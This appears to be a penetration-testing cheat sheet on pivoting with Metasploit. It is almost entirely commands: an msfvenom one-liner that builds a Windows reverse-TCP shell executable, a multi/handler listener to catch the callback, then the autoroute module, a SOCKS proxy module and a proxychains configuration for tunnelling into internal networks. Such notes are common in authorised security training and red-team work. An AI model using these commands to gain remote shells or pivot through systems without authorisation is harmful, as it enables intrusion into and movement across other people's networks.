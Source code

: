 # Proxying with Metasploit 

## Pivoting with proxychains

### Setup

Get regular or meterpreter shell on target:
```bash
msfvenom -p windows/x64/$SHELL/reverse_tcp -f exe -o shell.exe LHOST=$IP LPORT=$LPORT
```
Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```


### Auto-Routing our Traffic

```msfconsole
use post/multi/manage/autoroute
set SESSION 1
set subnet $IP
exploit
```

## Setting up Proxy with Metasploit

Note: Depending on what version of Metasploit you are using, the Proxy Server module will be different. 
MSF5 and lower will have auxiliary/server/socks4a or socks5, MSF6 and newer will have socks/auxiliary/socks\_proxy. 
With MSF6, you will need to specify if you want to use SOCKS4(a) or SOCKS5.
```msfconsole
use auxiliary/server/socks4a
```
Configure proxychains
```bash
vim /etc/proxychains.conf
# comment lines that aren't required or you'll create a longer misconfigured chain
socks$4-5 127.0.0.1 $AUXILIARY-SERVER-PORT-NUMBER-GOES-HERE
```
